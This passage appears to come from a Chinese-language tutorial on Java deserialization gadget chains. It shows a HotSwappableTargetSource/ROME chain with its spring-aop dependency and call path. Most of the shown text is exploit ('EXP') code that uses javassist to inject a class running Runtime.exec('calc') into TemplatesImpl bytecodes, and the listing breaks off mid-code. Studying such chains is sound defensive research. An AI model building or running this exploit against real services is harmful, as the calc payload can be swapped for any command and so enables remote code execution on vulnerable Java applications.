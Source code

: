 **注**：这里进入对应的分支是 System.getSecurityManager() 返回的 null，表示当前线程并未设置或安装安全管理器

## 7\. HotSwappableTargetSource 利用链

### 环境依赖

```bash
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.2.7.RELEASE</version>
</dependency>
```

### 利用链

```bash
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString
XString.equals()
HotSwappableTargetSource.equals()
HashMap.putVal()
HashMap.readObject()
```

### EXP

```bash
package RomeSec;

import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class HotSwapExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("aaaa");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);
```